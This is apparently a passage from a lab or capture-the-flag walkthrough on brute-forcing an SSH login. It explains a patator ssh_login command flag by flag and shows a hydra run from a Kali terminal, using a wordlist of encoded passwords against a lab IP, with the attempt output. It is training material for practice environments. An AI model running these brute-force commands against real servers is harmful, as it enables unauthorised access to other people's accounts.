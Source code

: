 You can also run  hydra help  to view the various options, but in my opinion, it's not quite as informative as patator. 

With the Hydra command running in the background, there isn't much more to do than wait as this may need a few hundred attempts to find the password, and that may take a few minutes... And while we're waiting, we might as well make use of the time. So let's look at how to do the same with Patator:  
  
patator ssh_login host=10.10.101.155 user=FILE0 password=_@@_FILE1_@@_ 0=userlist.txt 1=found_passwords.txt -x ignore:mesg='Authentication failed.' -x quit:mesg!='Authentication failed.'  -e _@@_:<encoding_type>   

As with our hydra command, let's break this down:

1.   ssh_login the method we'll be using
2.   host=10.10.101.155  our target
3.   user=FILE0 password=_@@_FILE1_@@_  the file placeholders for our passwords and usernames. If we wanted a static value, we would just put the username / password, like user=username a key thing to note here is that our password file is bracketed by _@@_  . That is tied into our encoding.
4.   1=userlist.txt 0=found_passwords.txt the files for our placeholders. Don't get them in the wrong order!
5.   -x ignore:mesg='Authentication failed.' patator is verbose by default, so if we want to ignore the failed attempts, we need to include an ignore condition.
6.   -x quit:mesg!='Authentication failed.' the equivalent of hydras -f, sets the exit condition . In this instance, we will quit when we get a message this isn't **_Authentication failed._**
7.   -e _@@_:<encoding_type> the encoding type. There are a few to choose from, so check the patator help menu (type patator ssh_login -h )

Patator works slightly differently to Hydra. With Hydra, we had to specify a text file that had our encoded passwords in it already. For Patator we can create a plaintext file called _found_passwords.txt_ and pass an encoding type as a parameter. Patator will then encode the plain text password with this encoding type for us. So before running the above command, you will need to create a file called _found_passwords.txt_ containing the two passwords found in Task 5 and Task 6 without any encoding. When running the command, you will not see any output until we find the password as we are ignoring any response that returns _Authentication failed._ Remember though, Patator will display the plaintext password without the encoding.

The downside is is that we can only specify one encoding type at a time when we run the command, so you will need to run it multiple times, once with each encoding, or try it after you've worked out what the encoding type should be. But it is always good to know there are multiple ways to brute a login. 

Answer the questions below

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nano encoded_passwords.txt
                                                                                                                                        
┌──(kali㉿kali)-[~/Downloads]
└─$ cat encoded_passwords.txt
1qaz%40WSX
cmh5bWVzCgo=
MXFhekBXU1gK
3171617a405753580a
7268796d65730a

┌──(kali㉿kali)-[~/Downloads]
└─$ hydra -f -L userlist.txt -P encoded_passwords.txt 10.10.101.155 -t 64 ssh -V 

[RE-ATTEMPT] target 10.10.101.155 - login "tommyboy1" - pass "" - 480 of 439926 [child 3] (0/48)
[ATTEMPT] target 10.10.101.155 - login "tommyboy1" - pass "1qaz%40WSX" - 481 of 439926 [child 8] (0/48)
[ATTEMPT] target 10.10.101.155 - login "tommyboy1" - pass "cmh5bWVzCgo=" - 482 of 439926 [child 13] (0/48)
[ATTEMPT] target 10.10.101.155 - login "tommyboy1" - pass "MXFhekBXU1gK" - 483 of 439926 [child 4] (0/48)
[RE-ATTEMPT] target 10.10.101.155 - login "tommyboy1" - pass "1qaz%40WSX" - 483 of 439926 [child 8] (0/48)
```